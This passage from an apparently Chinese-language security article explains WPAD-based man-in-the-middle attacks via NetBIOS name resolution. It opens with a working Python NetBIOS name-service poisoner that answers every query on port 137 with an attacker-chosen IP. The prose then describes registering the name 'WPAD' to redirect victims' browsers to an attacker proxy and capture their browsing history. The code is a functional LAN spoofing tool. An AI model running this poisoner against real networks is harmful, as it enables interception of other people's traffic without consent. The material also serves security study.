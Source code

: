 ```
        "IPADDR")          # IP Address

    def init_socket(self):
        self.HOST = "0.0.0.0"
        self.PORT = 137
        self.nas.setsockopt(socket.SOL_SOCKET, socket.SO_REUSEADDR, 1)
        self.nas.setsockopt(socket.IPPROTO_IP, socket.IP_MULTICAST_TTL, 255)

    def decode_name(self, nbname):
        """Return the NetBIOS first-level decoded nbname."""
        if len(nbname) != 32:
            return nbname
        l = []
        for i in range(0, 32, 2):
            l.append(chr(((ord(nbname[i]) - 0x41) << 4) |
                         ((ord(nbname[i+1]) - 0x41) & 0xf)))
        return ''.join(l).split('\x00', 1)[0]

    def Answser(self):
        self.nas.bind((self.HOST, self.PORT))
        print "Listening..."
        while 1:
            data, addr = self.nas.recvfrom(1024)
            tid  = data[0:2]           
            name = data[13:45]
            data = self.AnswerData.replace('TID', tid)
            data = data.replace('NAME', name)
            data = data.replace('IPADDR', socket.inet_aton(self.IPADDR))
            print "Poisoned answer(%s) sent to %s for name %s " % (self.IPADDR, addr[0], self.decode_name(name))
            self.nas.sendto(data, addr)
        self.nas.close()

if __name__ == "__main__":
    nbns = NBNS_Answer("11.22.33.44")
    nbns.Answser()

```

### 利用 NetBIOS 名称解析进行基于 WPAD 的中间人攻击思路解析

通过上面一系列针对 WPAD 原理和 NetBIOS 协议的阐述，理解利用 NetBIOS 名称解析进行基于 WPAD 的中间人攻击的思路就不难了，不过利用思路将不会再像 文2 那样详述。因为我认为，只要理解了攻击思路，如何利用就是一个“方法论”的问题了，具体情况具体分析，各位大牛完全可以自由发挥。

利用 NetBIOS 名称解析进行基于 WPAD 的中间人攻击本质上还是利用了 Windows 系统的名称解析顺序和 NetBIOS 协议的特点。

在文章第三小节已经说过，在工作组环境中，客户端主机执行 WPAD 功能时，就会遵循 Windows 系统的名称解析顺序，查询的名称均为**“WPAD”**。那么，如此看来，先广播进行 “WPAD” 名称的注册，然后监听 137 端口，等待局域网其他已启用 WPAD 功能的主机启动 IE 浏览器连接网络即可将受害者主机的浏览器代理设置为攻击者指定的代理服务器，这样就可以获得受害者的浏览器的上网记录。

利用上一节中的 Demo 程序以及 Python 的 SimpleHTTPServer 功能还有一台 HTTP 或者 SOCKS 代理服务器即可快速模拟出一个简单的攻击场景。如下图：

